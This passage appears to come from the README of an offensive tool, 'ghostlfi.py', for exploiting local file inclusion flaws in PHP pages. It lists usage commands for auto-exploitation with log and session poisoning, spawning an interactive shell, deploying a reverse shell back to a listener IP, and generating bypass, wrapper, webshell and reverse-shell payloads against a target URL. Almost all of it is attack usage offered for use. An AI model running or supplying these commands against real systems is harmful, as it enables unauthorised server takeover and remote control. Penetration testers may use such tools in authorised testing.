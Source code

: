 ### 2. Auto-Exploit with Advanced Techniques
```bash
# Includes log poisoning + session poisoning
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --advanced
```

### 3. Interactive Shell
```bash
# Get interactive shell immediately
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --shell
```

### 4. Reverse Shell
```bash
# Deploy reverse shell (have listener ready!)
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --revshell --lhost 10.10.10.1
```

### 5. Generate Payloads
```bash
# LFI bypass payloads
python3 ghostlfi.py -u http://target.com/page.php -p file --generate lfi

# PHP wrapper payloads  
python3 ghostlfi.py -u http://target.com/page.php -p file --generate wrappers

# Webshells
python3 ghostlfi.py -u http://target.com/page.php -p file --generate shells

# Reverse shells for your IP
python3 ghostlfi.py -u http://target.com/page.php -p file --generate revshell
```

### 6. Test Specific Techniques
```bash
# Test LFI bypass techniques
python3 ghostlfi.py -u http://target.com/page.php -p file --test-bypass

# Test log poisoning
python3 ghostlfi.py -u http://target.com/page.php -p file --test-log-poison

# Test session poisoning
python3 ghostlfi.py -u http://target.com/page.php -p file --test-session-poison
```

### 7. With Burp Suite
```bash
# Route through Burp for analysis
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --proxy http://127.0.0.1:8080
```

---
